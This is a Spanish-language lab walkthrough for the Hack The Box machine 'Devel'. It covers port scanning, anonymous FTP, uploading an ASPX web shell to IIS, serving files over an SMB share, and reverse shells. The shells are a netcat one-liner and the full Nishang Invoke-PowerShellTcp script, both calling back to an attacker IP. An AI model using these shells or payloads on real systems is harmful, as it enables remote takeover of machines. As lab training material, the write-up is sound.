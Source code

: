 # Devel

## NMAP 

```
batcat -l ruby Scan
nmap -sCV -Pn -O -A -p21,80 -oN Scan 10.129.7.194
```

![image](https://github.com/gecr07/Devel-HTB/assets/63270579/f4235216-32cf-4ccd-a556-c1ed94f370aa)


## ftp 

Necesitamos conectarnos al ftp y primero con sesiones nulas

```
ftp 10.129.8.38
user:anonymous
pass:anonymous
help
ls -la
```

Enumerando un poco

```
whatweb http://10.129.8.38
curl -I -s http://10.129.8.38
curl -I -s -X GET http://10.129.8.38

```

![image](https://github.com/gecr07/Devel-HTB/assets/63270579/dddc2d45-6951-499e-bde9-663b85777836)

Esto quiere decir que puede interpretar .aspx

## RCE

Nos damos cuenta que el ftp esta conectad con el iispor lo que vamos a hacer es subir una shell Kali tienen varias...

![image](https://github.com/gecr07/Devel-HTB/assets/63270579/6f85e96d-132a-4358-9bd1-d686098fad64)


```
sudo updatedb
locate *aspx* 
/usr/share/davtest/backdoors/aspx_cmd.aspx
/usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx
```

![image](https://github.com/gecr07/Devel-HTB/assets/63270579/da9afa8e-abba-48ec-9a7f-c1b450bd775a)

![image](https://github.com/gecr07/Devel-HTB/assets/63270579/18167bd9-6a6c-4f08-b6e7-2502b237183b)

### Compartir archivos a windows

Podemos montar una carpeta compartida en Kali y acceder desde Windows para esto se va a usar impacket-smbserver:

![image](https://github.com/gecr07/Devel-HTB/assets/63270579/0241faf2-95a9-4db7-97a2-dbcef62954e1)


```
impacket-smbserver smbFolder $(pwd)

```

Desde Windows ya sea un cmd o un ps puedes usar 

```
copy \\10.10.14.90\smbFolder\archivo

```

## RCE via nc

En kali seclist tiene nc.exe


```
\\10.10.14.80\share\nc.exe -e cmd.exe 10.10.14.80 443

```

### RCE via Nishang (via Invoke-PowerShellTcp.ps1)

![image](https://github.com/gecr07/Devel-HTB/assets/63270579/c1c683b6-fb64-4ff5-990c-a081247f9564)

Entonces ponemos es linea hasta abajo del archivo con nuestra IP

```powershell

function Invoke-PowerShellTcp 
{ 
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target. 

.DESCRIPTION
This script is able to connect to a standard netcat listening on a port when using the -Reverse switch. 
Also, a standard netcat can connect to this script Bind to a specific port.

The script is derived from Powerfun written by Ben Turner & Dave Hardy

.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.

.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444

Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port. 

.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>      
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    
    try 
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.80 -Port 4444


```

![image](https://github.com/gecr07/Devel-HTB/assets/63270579/efb2a3c0-8208-4f8e-a911-8bb0336b5699)


















































































































































